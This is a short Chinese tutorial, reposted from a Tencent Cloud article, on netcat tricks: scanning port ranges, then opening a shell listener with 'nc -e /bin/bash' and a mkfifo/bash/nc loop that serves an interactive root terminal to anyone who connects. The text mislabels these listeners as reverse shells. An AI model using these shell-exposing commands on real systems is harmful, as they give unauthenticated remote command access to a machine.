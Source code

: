> 转摘：[手把手教你 3 个 Linux 中快速检测端口的小技巧](https://cloud.tencent.com/developer/article/1593973)

使用 NetCat(`nc`)可以扫描单个或范围端口，其使用 TCP 或 UDP 协议跨网络连接读取和写入数据来判断端口是否可用。常用来进行开放端口的扫描检测。

`nc` 命令的选项很多，常用的选项如下：

* `-z` 表示仅扫描打开的端口而不发送任何数据；
* `-u` 表示扫描 UDP 端口，默认扫描的是 TCP 端口；
* `-v` 获取更多的详细信息。

使用示例如下：

### 1. 扫描端口

比如，扫描 IP 为`10.10.8.8`的远程计算机上端口范围为 20-80 之间打开的 TCP 端口：

```shell
> nc -z -v 10.10.8.8 20-80
nc: connect to 10.10.8.8 port 20 (tcp) failed: Connection refused
nc: connect to 10.10.8.8 port 21 (tcp) failed: Connection refused
Connection to 10.10.8.8 22 port [tcp/ssh] succeeded!
...
Connection to 10.10.8.8 80 port [tcp/http] succeeded!
```

> 如果只希望输出开放端口的信息，可以结合`grep`命令进行过滤：
> 
> ```shell
> nc -z -v 10.10.8.8 20-80 2>&1 | grep succeeded
> ```

### 2. 反弹 shell

下面的命令会在机器上开放 5879 端口：

```shell
> nc -l -vv -p 5789 -e /bin/bash
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Listening on ::5879
Ncat: Listening on 0.0.0.0:5879
```

这个过程叫做反弹 shell，此时远程就可以使用 nc 命令连接上这个端口了：

```shell
> nc -v 192.16.1.54 5879
Connection to 192.16.1.54 port 5879 [tcp/*] succeeded!
```

### 3. 反弹出命令行操作终端

在服务器上执行下面的两个命令，就可以构造一个反弹循环：

```shell
> rm -rf /tmp/f; mkfifo /tmp/f
> cat /tmp/f | /bin/bash -i 2>&1 | nc -l 5879 > /tmp/f
```

此时客户端使用 nc 命令连接后，就能出现命令行操作终端了：

```shell
> nc -v 192.16.1.54 5879
Connection to 192.16.1.54 port 5879 [tcp/*] succeeded!
[root@localhost~]#
```

如果关闭客户端，那么服务器端的命令也会退出。如果需要客户端退出时服务器端继续监听，可以在服务器端的 nc 命令中加上`-k`选项。


